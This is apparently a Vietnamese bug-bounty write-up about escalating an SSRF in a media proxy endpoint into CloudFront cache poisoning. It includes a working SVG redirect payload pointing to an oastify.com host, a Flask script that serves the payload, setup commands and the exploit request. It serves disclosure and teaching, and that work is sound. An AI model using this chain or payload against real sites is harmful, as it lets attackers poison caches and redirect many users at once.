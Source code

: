 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug

Hi, hôm nay mình sẽ chia sẻ về lỗ hổng `Cache Poisoning(Biến Thể)` mà mình vô tình gặp được ở `BugCrowd`. Được rồi chúng ta bắt đầu thôi!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---
## 1. Phân tích lỗ hổng Cache Poisoning thông qua Server-Side Request Forgery ?

Được rồi tại sao mình lại nói như vậy? Có lẻ mọi người sẽ khá thắc mắc, lỗ hổng này bắt nguồn từ việc tìm được `Proxy Controller Endpoint` vì vậy mình đã POC được `SSRF` nhưng ở đây chỉ là `P5 Informational` vì `Program` họ phân định rằng `SSRF` chỉ tương tác được với dịch vụ bên ngoài hoặc tương tác với `Server Attacker` đều là `Low-Impact`. Vì vậy họ nói rằng mình nên tìm cách nâng `Impact` của nó lên cao hơn họ sẽ đánh giá lại!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---
## 2. Phát Hiện Cache Poisoning như nào ?

Trong quá trình đang POC `SSRF` thì 1 anh hợp tác cùng phát hiện nó ép sử dụng `Response Header` như sau: `image/svg+xml` thì trước đó khi gửi `Request` cho nó `Fetch` tới Web Attacker mình đặt là `text/html` vì vậy luôn luôn báo 400 vì vậy anh ấy đã thử từng cái `Response Header` sau khi thử thành công thì khi sử dụng `image/svg+xml` thì là status 200.

- Đây là lúc dùng `text/html` status là 400

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

- Còn đây là lúc dùng `image/svg+xml`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

hãy để ý phần `Content-Type` ở dòng thứ 2 của `Response Header` nó chấp nhận với `image/svg+xml` và nếu các bạn tinh ý có thể thấy rằng phần tấm ảnh thứ 4 hay không ở phần cuối `Response Header` sẽ thấy nó đã Save `Cache` vào `CloudFront` với `Response Header` là `X-Cache: Hit fromt cloudfront` và cái quan trọng nhất vẫn là cái `Age: 5`. Nghĩa là thật sự nó đã Save Vào `Cache`. Và 1 điều quan trọng nữa thật sự đây là 1 `biến thể` mình lần đầu gặp vì thông thường `Cache Poisoning` sẽ không save `Cache` thông qua `Fetch` tới `Server Attacker`.

Note: Mình sử dụng https://requestrepo.com/#/requests để thực hiện thay đổi `Response Header`
![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---
## 3. Làm Sao mình có thể chứng minh chuẩn cho Vendor hiểu rằng thật sự là Cache Poisoning

Dĩ Nhiên là phải cho họ thấy mình tấn công 1 người dùng như nào thông qua `Cache Poisoning` rồi!

Mình có `Payload` như sau:

`Poc.xml`
```xml
- Payload xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

`Payload` này được sử dụng cho việc tiến hành tấn công `Open Redirect` tới `Server Attacker`, nghe có vẻ `low-impact` nhỉ ? Nhưng quan trọng cái họ quan tâm làm thế nào để `Payload` này save vào `Cache` và gây ra tấn công Hàng Loạt mà thôi!

Note: Nãy giờ có nhiều bạn hơi thắc mắc tại sao mà mình đưa `Payload` vào được phải không, bởi vì lỗ hổng `SSRF` đã `Fetch` tới `Server Attacker` và bê toàn bộ `Payload` từ File `Poc.xml` của mình về `Response` của `Server`.

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)

---
## 4. POC Cache Poisoning Thật Sự !

Có lẻ đã hoàn toàn xong ? Vâng đúng vậy chắc chắn đã xong rồi nhưng làm thế nào mình khẳng định cho họ rằng nó thật sự nghiêm trọng ?

Tiến hành di chuyển sang `VPS Server` để đào sâu hơn. Mình đã tự viết 1 Web với `Python Flask` như sau để đào sâu tăng nó từ `P4 -> P3`

```bash
- Quá trình chi tiết
mkdir poc-cache-poisoning
cd poc-cache-poisoning
nano poc.xml -> tự thêm payload ở trên
nano app.py -> thêm code ở dưới
python3 app.py -> di chuyển sang Repeater của BurpSuite
```
---
```python
- Code Cần thêm vào
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```
---

```http
- Request ở Repeater
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb.com 
Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0 
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

Một điểm quan trọng ở đây khi mình nhìn `Logs` của `Server Attacker` đó là gửi `Request` hơn 10 lần đến `Server` nhưng thật sự nó chỉ có trên `Logs` 2 lần ? Nghĩa là `Server` có lỗ hổng thật sự ở đây là `Logic Bug` không phải là lỗ hổng `Cache Poisoning` thông thường nữa, vì rỏ ràng đây là 1 tính năng `Fetch` tới sau đó lưu vào `Cache` của `CloudFront` nhưng `Dev` vô tình cho phép nó `Fetch` các `Data` từ bên ngoài vì vậy gây ra lỗi `Cache Poisoning`!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 5. Sơ đồ và giải thích chi tiết hơn

### + Phân biệt với cache poisoning “thông thường”

- **Cache poisoning thường**  
  1. Attacker gửi request có payload ngay từ client.  
  2. Server hoặc CDN nhúng payload vào response.  
  3. CDN cache response và trả lại cho các client tiếp theo.  
  4. Công việc chính: tuỳ biến tiêu đề (`Host`, `Vary`, `Cache-Control`…) để điều khiển key cache khác nhau.

- **Biến thể logic bug này**  
  1. **Trung gian là SSRF/Fetch**  
     - Payload (SVG/XML) được fetch từ **server attacker**, không phải từ browser nạn nhân.  
  2. **Server chính** vô tình để `Fetch` trả về response với header `Content-Type: image/svg+xml`, nên **CloudFront tự động cache**.  
  3. **Logic lặp lại**: sau khi cache, dù nạn nhân gửi yêu cầu nhiều lần, request không được chuyển tới SSRF nữa, vẫn sử dụng bản cache cũ—gắn chặt payload attacker lên nội dung trả về.

---

### + Tại sao gọi là “logic bug” đúng hơn?

1. **Lỗi thiết kế flow** chứ không chỉ là cấu hình cache sai.  
2. **Server attacker** được phép fetch bất kỳ URL nào và trả về thẳng cho CDN.  
3. **Flow “Fetch → Cache → Serve”** không có kiểm soát (whitelist domain, validate header response…), dẫn tới SSRF bị “leo thang” thành cache poisoning.  
4. Hậu quả nghiêm trọng hơn: không chỉ cache sai nội dung, mà còn **tấn công hàng loạt nạn nhân** thông qua payload SVG/redirect, XSS, Download File Malicious.

---

### + Flow diagram

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)